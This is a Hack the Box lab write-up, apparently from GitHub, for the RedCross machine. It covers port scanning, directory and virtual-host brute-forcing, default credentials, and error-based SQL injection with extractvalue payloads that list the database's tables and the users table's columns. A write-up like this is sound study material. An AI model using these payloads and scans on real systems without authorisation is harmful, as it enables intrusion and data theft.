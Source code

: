 # Hack the Box - RedCross
```CSS
Machine IP: 10.10.10.113 - Debian
```
## Reconnaisance
**Disover all open TCP ports**
```CSS
▶ nmap -Pn -sS -p- 10.10.10.113 -T4 --min-rate 1000 -oN nmap.surface
```

**Identify and scan running services on open ports**
```CSS
▶ sudo nmap -sV -sC -p 22,80,443 10.10.10.113 -oN nmap.deep 
```

---

## Application Mapping
![image](https://user-images.githubusercontent.com/83878909/229340988-396c149d-59a9-44df-8bb8-846e1a2e6f3b.png)

---

### Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb --wordlist /usr/share/wordlists/directories.txt --no-tls-validation --threads 25 --output intra-dir.out
```
![image](https://user-images.githubusercontent.com/83878909/229342980-9b448de6-1f32-417a-915b-d419ef3afc08.png)

### Recursive Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb/pages --wordlist Common-PHP-Filenames.txt --no-tls-validation --threads 25 --output intra-dir-pages.out 
```
![image](https://user-images.githubusercontent.com/83878909/229349757-4437bdf3-24b6-4b47-aa87-b392ff82f9da.png)

### Recursive Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb/documentation --wordlist directory-list-2.3-small.txt --no-tls-validation  --threads 25 --output intra-dir-pages.out --extensions pdf,txt 
```
![image](https://user-images.githubusercontent.com/83878909/229352633-afb50fcf-6b44-47a5-ad7d-327324b03a67.png)

---

## Virtual Host Brute-Force
```CSS
▶ wfuzz -H 'Host: FUZZ.redcross.htb' -u 'https://10.10.10.113' -w subdomains-top1million-5000.txt --hw 28
```
![image](https://user-images.githubusercontent.com/83878909/229351137-705a4132-e00b-45b5-b551-2f9a15acb448.png)

---

## Testing for SQL Injection
  - URL: `https://intra.redcross.htb/?page=login`
  - Capture the request in BurpSuite and copy it to a text file using `Copy to file`.
  - Run `sqlmap` with the captured request. 
![image](https://user-images.githubusercontent.com/83878909/229352907-4b619112-09b4-4d94-bb9e-af767ebf9e9a.png)
![image](https://user-images.githubusercontent.com/83878909/229352924-ffbba2d9-f739-43a1-b7fa-98c14ad39f6e.png)

### SQLMap
```CSS
▶ sqlmap -r login-request.txt --force-ssl --dbms mysql --batch
```
**NOT VULNERABLE**

---

## Testing for Default Credentials on Login Page
- Logged in as Guest.
- Working credentials: `guest:guest`.
![image](https://user-images.githubusercontent.com/83878909/229353512-1722be64-2483-4f6e-aa8c-ee2d70a9786a.png)

---

## Testing for SQL Injection
  - URL: `https://intra.redcross.htb/?page=app`
  - Capture the request in BurpSuite and copy it to a text file using `Copy to file`.
  - Run `sqlmap` with the captured request. 
![image](https://user-images.githubusercontent.com/83878909/229353680-3ca112d1-6c52-48ae-a39c-107c461459c9.png)

### SQLMap
```CSS
▶ sqlmap -r userid-filter-request.txt -p o --force-ssl --dbms mysql --batch
```
## Manual Testing
  - Inject a `'` after the `o` parameter in the query.
![image](https://user-images.githubusercontent.com/83878909/229354603-aef8edb5-23e7-40b8-8785-f45b4515d517.png)
  - Extract: Version information.
  - Query: `') and extractvalue(0x0a,concat(0x0a,version()))-- -`
![image](https://user-images.githubusercontent.com/83878909/229354803-2b283325-cc0c-4561-bceb-4a890f1a6e1d.png)
 ## Database Name 
  - Extract: Database name.
  - Query: `') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229359923-16a7107b-f98b-4294-8816-c672d7690dd6.png)
 ## Tables
  - Extract: Table names in the database `redcross`.
  - Query (Table 1): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 0,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360263-2a8cfc98-5fb3-4d9b-ab61-71836b0aae34.png)
  - Query (Table 2): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 1,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360434-d3ce41fa-586c-430a-b4f7-89549b2704e1.png)  
  - Query (Table 3): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 2,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360478-52232c71-b380-404e-a649-e99f5afa4759.png)
- Tables Found: messages, requests and users.

## Columns
  - Extract: Column names in the table `users`.
  - Query (Column 1): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364564-7f7b5fbe-e17b-4c60-b28e-e9c8b36a9e4a.png)
  - Query (Column 2): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364190-97f1d230-b4a4-45d8-900a-50c7707eb9fd.png)
  - Query (Column 3): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 2,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364271-a10fe1c5-7311-4d04-9c64-96141184e967.png)
  - Query (Column 4): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 3,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364423-652f1974-229c-49b6-a88c-e6d010103f4b.png)
  - Query (Column 5): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 5,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364516-a25c1339-8f3c-4d66-8691-251dab9d1289.png)
- Columns Found: id, username, password, mail and role.
